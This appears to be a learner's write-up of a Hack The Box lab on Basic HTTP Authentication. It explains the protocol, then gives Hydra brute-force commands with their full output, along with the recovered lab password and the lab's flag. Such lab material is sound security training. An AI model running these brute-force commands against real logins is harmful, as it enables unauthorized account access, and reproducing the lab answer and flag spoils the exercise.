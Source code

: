 ```yaml
---
sticker: emoji//1f409
---
```


# Basic HTTP Authentication

Web applications often employ authentication mechanisms to protect sensitive data and functionalities. Basic HTTP Authentication, or simply `Basic Auth`, is a rudimentary yet common method for securing resources on the web. Though easy to implement, its inherent security vulnerabilities make it a frequent target for brute-force attacks.

In essence, Basic Auth is a challenge-response protocol where a web server demands user credentials before granting access to protected resources. The process begins when a user attempts to access a restricted area. The server responds with a `401 Unauthorized` status and a `WWW-Authenticate` header prompting the user's browser to present a login dialog.

Once the user provides their username and password, the browser concatenates them into a single string, separated by a colon. This string is then encoded using Base64 and included in the `Authorization` header of subsequent requests, following the format `Basic <encoded_credentials>`. The server decodes the credentials, verifies them against its database, and grants or denies access accordingly.

For example, the headers for Basic Auth in a HTTP GET request would look like:

```http
GET /protected_resource HTTP/1.1
Host: www.example.com
Authorization: Basic YWxpY2U6c2VjcmV0MTIz
```

### Exploiting Basic Auth with Hydra

**To follow along, start the target system via the question section at the bottom of the page.**

We will use the `http-get` hydra service to brute force the basic authentication target.

In this scenario, the spawned target instance employs Basic HTTP Authentication. We already know the username is `basic-auth-user`. Since we know the username, we can simplify the Hydra command and focus solely on brute-forcing the password. Here's the command we'll use:

```shell-session
# Download wordlist if needed
smoothment@htb[/htb]$ curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt
# Hydra command
smoothment@htb[/htb]$ hydra -l basic-auth-user -P 2023-200_most_used_passwords.txt 127.0.0.1 http-get / -s 81

...
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-09-09 16:04:31
[DATA] max 16 tasks per 1 server, overall 16 tasks, 200 login tries (l:1/p:200), ~13 tries per task
[DATA] attacking http-get://127.0.0.1:81/
[81][http-get] host: 127.0.0.1   login: basic-auth-user   password: ...
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-09-09 16:04:32
```

Let's break down the command:

* `-l basic-auth-user`: This specifies that the username for the login attempt is 'basic-auth-user'.
* `-P 2023-200_most_used_passwords.txt`: This indicates that Hydra should use the password list contained in the file '2023-200\_most\_used\_passwords.txt' for its brute-force attack.
* `127.0.0.1`: This is the target IP address, in this case, the local machine (localhost).
* `http-get /`: This tells Hydra that the target service is an HTTP server and the attack should be performed using HTTP GET requests to the root path ('/').
* `-s 81`: This overrides the default port for the HTTP service and sets it to 81.

Upon execution, Hydra will systematically attempt each password from the `2023-200_most_used_passwords.txt` file against the specified resource. Eventually it will return the correct password for `basic-auth-user`, which you can use to login to the website and retrieve the flag.

## Question

***

![](gitbook/cybersecurity/images/Pasted%20image%2020250213141136.png)

We can use the following command:

```
hydra -l basic-auth-user -P 2023-200_most_used_passwords.txt IP http-get / -s PORT -t 40
```

We get the following output:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-13 20:15:11
[DATA] max 40 tasks per 1 server, overall 40 tasks, 200 login tries (l:1/p:200), ~5 tries per task
[DATA] attacking http-get://83.136.253.28:31818/
[31818][http-get] host: 83.136.253.28   login: basic-auth-user   password: Password@123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-02-13 20:15:13
```

Got credentials:

```ad-note
`basic-auth-user`:`Password@123`
```

If we log in, we can see the flag:

![](gitbook/cybersecurity/images/Pasted%20image%2020250213151644.png)

Flag is:

```
HTB{th1s_1s_4_f4k3_fl4g}
```
